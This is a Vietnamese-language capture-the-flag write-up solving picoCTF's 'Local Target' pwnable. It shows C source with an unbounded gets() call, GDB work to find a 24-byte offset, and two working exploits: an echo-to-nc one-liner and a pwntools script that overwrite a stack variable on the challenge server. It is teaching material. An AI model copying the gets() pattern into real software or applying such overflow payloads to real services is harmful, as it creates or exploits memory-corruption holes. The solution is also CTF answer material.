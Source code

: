 # Local Target

- **Phân loại:** Pwnable
- **Độ khó:** Easy
- Tool: GDB-peda
- Kiến thức: stack, thanh ghi

## 1. Phân tích bài

1. Source

```cpp
#include <stdio.h>
#include <stdlib.h>

int main(){
  FILE *fptr;
  char c;

  char input[16];
  int num = 64;
  
  printf("Enter a string: ");
  fflush(stdout);
  gets(input);
  printf("\n");
  
  printf("num is %d\n", num);
  fflush(stdout);
  
  if( num == 65 ){
    printf("You win!\n");
    fflush(stdout);
    // Open file
    fptr = fopen("flag.txt", "r");
    if (fptr == NULL)
    {
        printf("Cannot open file.\n");
        fflush(stdout);
        exit(0);
    }

    // Read contents from file
    c = fgetc(fptr);
    while (c != EOF)
    {
        printf ("%c", c);
        c = fgetc(fptr);
    }
    fflush(stdout);

    printf("\n");
    fflush(stdout);
    fclose(fptr);
    exit(0);
  }
  
  printf("Bye!\n");
  fflush(stdout);
}
```

b) Nhận xét

- Mục đích của ta là ghi đè biến num thành giá trị 65 thông qua mảng input. Nhưng mảng input lại được khai báo trước nên nó không thể ghi đè vào biến num

## 2. Ý tưởng khai thác

- Mặc dù trên lý thuyết mảng input được khai báo trước thì nó phải có địa chỉ cao hơn biến num trên stack, nhưng thực tế thì compiler có thể sắp xếp lại các biến để đảm bảo alignment cho hiệu năng tốt hơn. Để kiểm tra giả thiết này ta sẽ thử debug bằng gdb
- Đầu tiên, xem mã assembly của chương trình, dễ thấy địa chỉ của biến num là rbp-0x8:

![image.png](image.png)

- Tiếp theo, ta cần đặt breakpoint sau câu lệnh gets input (breakpoint có tác dụng tạm dừng việc thực thi chương trình tại một điểm cụ thể giúp kiểm tra trạng thái của chương trình tại thời điểm đó, bao gồm giá trị của các biến, nội dung của bộ nhớ, stack frame,…)
Vì câu lệnh gets có địa chỉ là 0x401275 nên ta đặt breakpoint tại câu lệnh tiếp theo (0x40127a)

![image.png](image%201.png)

![image.png](image%202.png)

- Sau đó ta dùng câu lệnh run và nhập chuỗi string:

![image.png](image%203.png)

- Dùng câu lệnh “x/s $rsp-0x20” để in ra chuỗi chứa trong địa chỉ rsp-0x20. Ta thấy đó chính là chuỗi input mà ta đã nhập vào, vậy rsp-0x20 chính là địa chỉ của input

![image.png](image%204.png)

- Sau khi debug thì ta thấy phỏng đoán ban đầu hoàn toàn là đúng: biến num được xếp trước mảng input trong stack nên ta có thể ghi tràn mảng input để đè vào biến num. Padding ở đây là 0x20-0x8=0x18 (=24 trong hệ thập phân)

## 3. Tiến hành khai thác

- Cách 1: truyền bằng pipe:
+ Payload:
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7\x41 (41 trong hex = 65 trong decimal)
+ Câu lệnh truyền payload bằng pipe:

```cpp
(echo -ne "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7\x41"; cat) | nc saturn.picoctf.net 65514
```

![image.png](image%205.png)

- Cách 2: dùng file thực thi
+ Ta tạo file python thực thi:

```cpp
from pwn import *

p=remote('saturn.picoctf.net', 65514)
payload = b'a'*24 + p64(65)

p.sendline(payload)
p.interactive()
```

![image.png](image%206.png)

## 4. Kết luận

- Không phải lúc nào các biến nội bộ cũng được sắp xếp trong stack theo đúng thứ tự